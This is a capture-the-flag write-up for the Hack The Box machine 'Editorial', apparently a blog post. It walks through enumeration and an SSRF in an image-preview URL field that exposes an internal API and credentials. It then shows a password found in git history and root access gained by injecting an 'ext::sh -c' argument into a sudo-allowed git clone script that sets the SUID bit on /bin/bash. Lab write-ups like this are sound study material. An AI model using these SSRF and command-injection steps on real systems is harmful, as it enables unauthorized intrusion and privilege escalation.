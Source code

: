 ```yaml
---
title:  HTB - Editorial
date: 2020-11-18 12:17:34 -0400
categories: [hackthebox , Editorial]
tags: [pivot, red, team, network, chisel]
image:
  path: /assets/img/post/editorial/editorial.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Editorial.
---
```


## Box Info

| Name                  | Editorial        | 
| :-------------------- | ---------------: |
| Release Date          | 15 Jun, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

![Image](/assets/img/post/editorial/image.png)

echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts  
![Image](/assets/img/post/editorial/image-1.png)
whatweb:
![Image](/assets/img/post/editorial/image-2.png)
Web:
![Image](/assets/img/post/editorial/image-3.png)
dirsearch -u http://editorial.htb/ 
![Image](/assets/img/post/editorial/image-4.png)

This page is interesting, we can preview an image from a file or url.

![Image](/assets/img/post/editorial/image-5.png)

## SSRF

The file name is renamed and the file extension is removed. When we open the preview image in a new tab, the file downloaded directly, so it seems like we can’t execute any shell directly.

When I upload a file and add a url "http://127.0.0.1/" and intercept with BurpSuite, we can see the response 200 OK and showing a image directory location, this point to a `SSRF`.

![Image](/assets/img/post/editorial/image-6.png)

In an [SSRF](https://portswigger.net/web-security/ssrf) attack against the server, the attacker causes the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This typically involves supplying a URL with a hostname like `127.0.0.1` (a reserved IP address that points to the loopback adapter) or `localhost` (a commonly used name for the same adapter)

![Image](/assets/img/post/editorial/image-7.png)

The response shows us a directory path, let's download the file and see what's inside.

![Image](/assets/img/post/editorial/image-8.png)

![Image](/assets/img/post/editorial/image-9.png)


![Image](/assets/img/post/editorial/image-10.png)

And re upload the file and add the path in burpsuite.

`/api/latest/metadata/messages/authors`{: .filepath}

![Image](/assets/img/post/editorial/image-11.png)

![Image](/assets/img/post/editorial/image-12.png)

Username: dev - Password: dev080217_devAPI!@
![Image](/assets/img/post/editorial/image-13.png)

user flag
![Image](/assets/img/post/editorial/image-14.png)

![Image](/assets/img/post/editorial/image-15.png)

### Linux Enumeration

```bash
find / -user dev 2>/dev/null | grep -vE "sys|proc"
```

![Image](/assets/img/post/editorial/image-16.png)


![Image](/assets/img/post/editorial/image-17.png)

The command `Git show` displays detailed information about a commit.

![Image](/assets/img/post/editorial/image-18.png)


![Image](/assets/img/post/editorial/image-19.png)

080217_Producti0n_2023!@ for prod
- su `prod`
- password: `080217_Producti0n_2023!@`

## Privilege Escalation

sudo -l

![Image](/assets/img/post/editorial/image-20.png)

```bash
- echo '#!/bin/bash' > /tmp/exploit.sh

- echo 'chmod u+s /bin/bash' >> /tmp/exploit.sh
```

![Image](/assets/img/post/editorial/image-21.png)

```bash
- sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c '/tmp/exploit.sh'"
```

![Image](/assets/img/post/editorial/image-22.png)

- `ls -l /bin/bash`

![Image](/assets/img/post/editorial/image-23.png)

Start a new bash session.

- `/bin/bash -p` 

![Image](/assets/img/post/editorial/image-24.png)

